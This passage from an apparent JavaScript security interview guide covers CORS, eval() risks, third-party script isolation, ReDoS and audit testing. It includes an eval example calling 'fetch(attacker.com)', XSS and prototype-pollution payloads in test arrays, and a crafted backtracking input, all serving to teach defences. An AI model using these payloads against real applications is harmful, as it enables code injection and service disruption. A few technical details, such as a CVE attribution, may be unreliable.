> prevents JavaScript from one origin (scheme + domain + port) from
> reading responses from another origin.
>
> ```
> Origin: https://app.com:443
>
> Request to:                         SOP allows?
> https://app.com/api/data            YES (same origin)
> https://api.app.com/data            NO (different subdomain)
> http://app.com/data                 NO (different scheme)
> https://app.com:8080/data           NO (different port)
> https://other.com/data              NO (different domain)
>
> SOP blocks READING responses - but not SENDING requests!
> (CSRF exploits this: the request IS sent, but response blocked)
> ```
>
> CORS (Cross-Origin Resource Sharing) is a controlled SOP relaxation:
>
> ```javascript
> // Server opts into allowing cross-origin reads:
> import cors from 'cors';
>
> // BAD: wildcard allows any origin to read your API
> app.use(cors({ origin: '*' }));
> // With credentials: this is invalid (browsers reject it)
>
> // GOOD: explicit allowlist
> app.use(cors({
>   origin: ['https://app.com', 'https://admin.app.com'],
>   methods: ['GET', 'POST', 'PUT', 'DELETE'],
>   allowedHeaders: ['Content-Type', 'Authorization'],
>   credentials: true,  // Allow cookies
>   maxAge: 86400,      // Preflight cache 24h
> }));
>
> // For public read-only APIs:
> app.use(cors({ origin: '*' }));
> // Acceptable: no cookies, no sensitive data, public by design
> ```
>
> *What separates good from great:* CORS misconfiguration is one of
> the most common API security issues. The critical mistake:
> `origin: '*'` with `credentials: true` - browsers reject this, so
> developers add dynamic origin reflection: "if Origin header is
> present, echo it back as allowed." This effectively disables SOP
> entirely. The correct pattern for credential-bearing CORS: maintain
> an explicit allowlist and validate the incoming Origin header against
> it, never echo it unconditionally.

**Q9: What security risks come from using eval() and how do you
avoid them?** `[MID]` MECHANISM

> **Answer:**
>
> `eval()` and related functions (`Function()`, `setTimeout(string)`,
> `setInterval(string)`, `new Function()`) execute arbitrary JavaScript
> from strings. If user input reaches these functions, it's a direct
> code injection (XSS at the JavaScript level).
>
> ```javascript
> // DIRECT eval injection:
> function calculate(formula) {
>   return eval(formula);  // formula = "fetch(attacker.com)"
> }
> // Attacker controls what executes
>
> // INDIRECT: Function constructor
> const fn = new Function('return ' + userInput);
> // Same as eval: arbitrary code execution
>
> // TEMPLATE LITERALS with eval:
> eval(`${userTemplate}`);  // Dangerous if userTemplate is controlled
>
> // SAFE ALTERNATIVES:
>
> // 1. Math expression parser (instead of eval for math)
> import { parse, evaluate } from 'mathjs';
> function safeCalculate(formula) {
>   const node = parse(formula);  // Validates, doesn't execute
>   return evaluate(node);
> }
>
> // 2. JSON.parse (safe - no code execution)
> const data = JSON.parse(userInput);  // Only parses data, not code
>
> // 3. Template rendering with safe engine
> import Handlebars from 'handlebars';
> const template = Handlebars.compile('Hello {{name}}');
> // Handlebars escapes by default, no arbitrary code
>
> // CSP can block eval:
> // Content-Security-Policy: script-src 'self'
> // (no 'unsafe-eval') -> eval(), new Function() throw
> ```
>
> *What separates good from great:* Server-side JavaScript has the
> same eval risks as client-side, but with more severe impact
> (server compromise vs browser session theft). Node.js `vm.runInNewContext`
> and `vm.runInThisContext` with untrusted input are NOT sandboxes -
> they can be escaped via prototype chain attacks. True isolation for
> untrusted code requires separate processes or WebAssembly. Libraries
> like `isolated-vm` provide proper V8 isolate-level sandbox.

**Q10: How do you handle security in a third-party JavaScript
integration?** `[STAFF]` SYSTEM-DESIGN

> **Answer:**
>
> Third-party scripts (analytics, chat widgets, payment SDKs) run in
> the same JavaScript context as your application. A compromised
> third-party script is a vector for XSS.
>
> ```html
> <!-- PROBLEM: third-party script has full access -->
> <script src="https://analytics.thirdparty.com/track.js"></script>
> <!-- If this script is compromised:
>      - Access to all cookies (not HttpOnly)
>      - Access to localStorage/sessionStorage
>      - Can make authenticated requests
>      - Can read form inputs (keylogging)
>      - Can exfiltrate visible page data -->
>
> <!-- DEFENSE 1: Subresource Integrity (SRI) -->
> <script src="https://cdn.example.com/lib.js"
>         integrity="sha384-{hash-of-exact-file-content}"
>         crossorigin="anonymous"></script>
> <!-- Browser verifies file hash before executing
>      If CDN is compromised and file changes: BLOCKED -->
>
> <!-- DEFENSE 2: isolate in iframe sandbox -->
> <iframe src="https://chat.widget.com"
>         sandbox="allow-scripts allow-forms"
>         title="Chat Widget">
> </iframe>
> <!-- sandbox attribute limits what the iframe can do:
>      no allow-same-origin = different origin context
>      no allow-top-navigation = can't redirect parent
>      no allow-storage-access = no localStorage access -->
> ```
>
> ```javascript
> // DEFENSE 3: postMessage for cross-origin communication
> // Instead of shared state, use message passing:
> const iframe = document.getElementById('widget');
>
> iframe.contentWindow.postMessage(
>   { type: 'init', theme: 'dark' },  // only send what's needed
>   'https://trusted.widget.com'       // always specify targetOrigin!
> );
>
> window.addEventListener('message', (event) => {
>   if (event.origin !== 'https://trusted.widget.com') return;
>   handleWidgetMessage(event.data);
> });
>
> // DEFENSE 4: CSP restricts third-party script sources
> // Content-Security-Policy: script-src 'self'
> //   https://analytics.trusted.com
> //   https://cdn.stripe.com;
> // Only explicitly listed third-party scripts execute
> ```
>
> *What separates good from great:* The most robust isolation for
> third-party code is the sandbox origin model: serve the third-party
> integration from a separate domain (e.g., `widget.your-domain.com`)
> with its own CSP that has no access to the main app's cookies,
> localStorage, or DOM. Communication only via `postMessage` with
> strict origin validation. This is how payment providers like Stripe
> implement secure card input - the iframe that captures card data runs
> in Stripe's origin, not the merchant's, so even if the merchant's
> app is XSS'd, the card data is inaccessible.

**Q11: What is the ReDoS vulnerability and how do you prevent it?**
`[SENIOR]` FAILURE-MODE

> **Answer:**
>
> ReDoS (Regular Expression Denial of Service) exploits catastrophic
> backtracking in regex engines. Certain regex patterns have exponential
> worst-case time complexity when matched against crafted input.
>
> ```javascript
> // VULNERABLE REGEX: nested quantifiers with shared alternatives
> const VULN_EMAIL = /^(a+)+@/;  // evil regex - exponential backtracking
>
> // Benign input: 'aaaaaaaaaaaaaaaaaaaaaa!' (no @)
> // Regex tries: a, aa, a+a, aaa, a+aa, ...
> // Time: O(2^n) where n = number of 'a' characters
>
> // Attack:
> const malicious = 'a'.repeat(30) + '!';
> VULN_EMAIL.test(malicious);  // Takes ~2^30 steps -> seconds of CPU
>
> // Real-world example (Express.js 4.x CVE-2014-6394):
> const path = /^\/((?:\/[^\/]+)+\/)$/;
> // Similarly vulnerable pattern
>
> // DETECTION:
> // Use safe-regex library:
> import safeRegex from 'safe-regex';
> safeRegex(VULN_EMAIL);  // returns false -> unsafe
>
> // Or: vuln-regex-detector npm package
>
> // PREVENTION:
>
> // 1. Use safe regex patterns (atomic groups, possessive quantifiers)
> // 2. Set regex timeout (Node.js 19+, V8 has no built-in timeout)
> import { Worker } from 'worker_threads';
>
> function testRegexSafe(pattern, input, timeoutMs = 100) {
>   return new Promise((resolve) => {
>     const worker = new Worker(`
>       const { workerData, parentPort } = require('worker_threads');
>       const result = new RegExp(workerData.pattern)
>         .test(workerData.input);
>       parentPort.postMessage(result);
>     `, {
>       eval: true,
>       workerData: { pattern, input }
>     });
>     const timer = setTimeout(() => {
>       worker.terminate();
>       resolve(false);  // Timeout = treat as no match
>     }, timeoutMs);
>     worker.once('message', (result) => {
>       clearTimeout(timer);
>       resolve(result);
>     });
>   });
> }
>
> // 3. Use re2 library (linear time regex engine):
> import RE2 from 're2';
> const safePattern = new RE2('^[a-z0-9]+$');
> safePattern.test(userInput);  // Always O(n), never exponential
> ```
>
> *What separates good from great:* The `re2` library (wrapping Google's
> RE2) provides linear-time regex matching by disallowing backreferences
> and lookaheads - the features that enable catastrophic backtracking.
> For high-throughput user input validation (emails, URLs, usernames),
> RE2 should be the default choice in Node.js services. Standard
> JavaScript regex is fine for trusted, internal patterns. The
> production incident pattern: new data type enters the system with
> a slightly different format -> regex that matched correctly before
> now backtracks catastrophically on edge cases in the new format
> -> event loop blocked -> cascading timeout.

**Q12: How do you implement a comprehensive security audit for a
JavaScript/Node.js application?** `[STAFF]` SYSTEM-DESIGN

> **Answer:**
>
> A systematic security audit covers: static analysis, dependency
> scanning, runtime testing, and architecture review.
>
> ```bash
> # STEP 1: Dependency vulnerability scanning
> npm audit                    # built-in, checks npm advisory DB
> npx snyk test                # broader DB + fix suggestions
> npx retire --js              # checks for outdated libs
>
> # Focus on: prototype pollution, ReDoS, path traversal, RCE
>
> # STEP 2: Static analysis
> npx eslint --plugin security  # eslint-plugin-security
> # Flags: eval(), exec(), innerHTML, new Function(), etc.
>
> # STEP 3: Secrets in code
> git-secrets --scan            # AWS credentials, API keys
> npx gitleaks detect           # Broader patterns
>
> # STEP 4: Headers audit
> curl -I https://your-app.com | grep -E 'CSP|X-Frame|Strict'
> # Use: https://securityheaders.com for detailed analysis
> ```
>
> ```javascript
> // RUNTIME: AUTOMATED SECURITY TESTS
> // Test XSS prevention:
> const XSS_PAYLOADS = [
>   '<script>alert(1)</script>',
>   '',
>   'javascript:alert(1)',
>   '"><script>alert(1)</script>',
> ];
> for (const payload of XSS_PAYLOADS) {
>   const resp = await renderComment({ text: payload });
>   expect(resp).not.toContain('<script>');
>   expect(resp).not.toContain('onerror');
> }
>
> // Test prototype pollution prevention:
> test('merge rejects proto pollution', () => {
>   const original = {}.isAdmin;
>   merge({}, JSON.parse('{"__proto__":{"isAdmin":true}}'));
>   expect({}.isAdmin).toBe(original);  // Unchanged
> });
>
> // Test CSRF token validation:
> it('rejects requests without CSRF token', async () => {
>   const resp = await request(app)
>     .post('/api/transfer')
>     .set('Cookie', validSession)
>     .send({ amount: 100 })
>     .expect(403);
> });
> ```
>
> *What separates good from great:* Automated security testing in CI
> is the difference between security as a process vs security as a
> one-time audit. The pipeline should: (1) fail on any `npm audit`
> finding with severity HIGH or CRITICAL, (2) run OWASP ZAP or
> Semgrep on every PR, (3) test all documented security controls
> (CSRF tokens, rate limiting, authentication) as part of the test
> suite - not just functional behavior. Security regressions should be
> caught the same way functional regressions are: automatically, on
> every change.
